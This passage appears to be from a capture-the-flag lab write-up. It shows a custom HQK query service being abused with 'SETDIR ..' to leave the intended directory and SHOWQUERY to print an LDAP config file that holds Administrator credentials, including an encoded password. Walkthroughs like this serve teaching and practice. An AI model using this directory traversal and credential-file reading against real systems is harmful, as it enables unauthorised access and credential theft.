 ```
LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
SERVICE
SESSION
SHOWQUERY <Query_ID>

>SETDIR ..              # Using SETDIR command I got access of the one directory above

Current directory set to HQK
>LIST

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[DIR]  ALL QUERIES
[DIR]  LDAP
[DIR]  Logs
[1]   HqkSvc.exe
[2]   HqkSvc.InstallState
[3]   HQK_Config.xml

Current Directory: HQK
>setdir ldap               # Got into LDAP Directory

Current directory set to ldap
>list

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[1]   HqkLdap.exe
[2]   Ldap.conf

Current Directory: ldap
>showquery 2                # The SHOWQUERY command was printing the file content.

Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```

Okay so the `SHOWQUERY` command was printing the file content and by going one directory above, and switching to ldap directory, i got the hash for the administrator. 
